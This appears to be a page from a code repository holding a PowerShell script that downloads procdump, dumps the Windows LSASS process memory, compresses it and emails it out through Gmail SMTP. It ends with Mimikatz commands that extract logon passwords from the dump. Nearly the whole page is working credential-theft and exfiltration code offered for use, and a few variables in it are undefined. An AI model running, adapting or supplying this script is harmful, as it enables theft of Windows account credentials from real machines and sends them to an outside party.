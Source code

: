 ```powershell
$x64 = 'https://live.sysinternals.com/tools/procdump64.exe'
$64 = 'procd64.exe'

# set working directory
Set-Location -Path $env:tmp -PassThru
    New-Item dump -ItemType Directory -Force
    New-Item dump.zip -ItemType File -Force

# determine OS and download correct version
$OS = (Get-WmiObject Win32_OperatingSystem).OSArchitecture
    If ($OS -match '64'){(Invoke-WebRequest -Uri $x64 -OutFile $64)} 
        Else {(Invoke-WebRequest -Uri $x86 -OutFile $86)}

# make the lsass dump with the correct version
    If ($OS -match '64'){(Invoke-Command -ScriptBlock {procd64.exe -ma -o lsass.exe lsass -accepteula})}
        Else {(Invoke-Command -ScriptBlock {procd32.exe -ma -o lsass.exe lsass -accepteula})}

# dump is created. copy, compress and move
$src = Resolve-Path $env:tmp\dump 
$dst = Resolve-Path $env:tmp\dump.zip
    Copy-Item lsass.dmp $env:tmp\dump
         If(Test-path $dst) {Remove-item $dst}
        Add-Type -assembly "system.io.compression.filesystem"
        [io.compression.zipfile]::CreateFromDirectory($src, $dst)
        
    Move-Item $env:tmp\dump.zip $Attachment

# setup the mail server and mail file
$SMTPServer = 'smtp.gmail.com'
$SMTP = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
$SMTP.EnableSsl = $true
$SMTP.Credentials = New-Object System.Net.NetworkCredential($GmailAccount,$GmailPassWord)
$Message = New-Object System.Net.Mail.MailMessage
$Message.From = $FromAddress
$Message.To.Add($ToAddress)
$Message.Subject = $Subject
$Message.IsBodyHtml = $True
$Attach = new-object Net.Mail.Attachment($Attachment)
$Message.Attachments.Add($Attach)
$SMTP.Send($Message)
```



### Steps after retrieving the LSASS Dump

After receiving the dump file you can examine it and retrieve the passwords:

```bash
Run Mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords
```
